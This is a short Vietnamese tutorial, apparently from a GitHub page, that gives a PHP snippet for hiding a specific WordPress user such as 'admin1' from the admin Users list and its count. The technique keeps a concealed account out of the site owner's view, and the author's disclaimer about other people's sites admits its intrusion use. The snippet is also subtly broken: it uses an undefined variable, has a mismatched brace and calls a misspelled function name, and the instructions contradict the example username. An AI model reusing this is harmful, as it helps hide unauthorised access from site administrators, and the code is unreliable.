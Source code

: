 # Hướng dẫn ẩn thành viên trong trang Admin của Wordpress

- Trước tiên, tạo user muốn ẩn ( Ví dụ user mình tạo là admin1, thì điền vào code dưới là admin ). Sau đó copy đoạn code dưới vào bất kỳ chỗ nào trong wordpress (function.php, *plugins,...).

```c
 add_action('pre_user_query','yoursite_pre_user_query');
function yoursite_pre_user_query($user_search) {
global $current_user;
if ($username == 'admin1') {
}
else{
global $wpdb;
$user_search->query_where = str_replace('WHERE 1=1',
 "WHERE 1=1 AND {$wpdb->users).user_login != 'admin1' ",$user_search->query_where);
}
}

function hide_useR_count(){ ?> <style> .wp-admin.users-php span.count {display:none;} </style> <?php }
add_action('admin_head','hide_user_count');
```

- Đây là dòng code ẩn user trong admin wordpress, tôi không khuyến khích bạn làm trang wordpress của người khác. Tôi sẽ không chịu trách nhiệm nào việc bạn sử dụng mục đích không chính đáng.
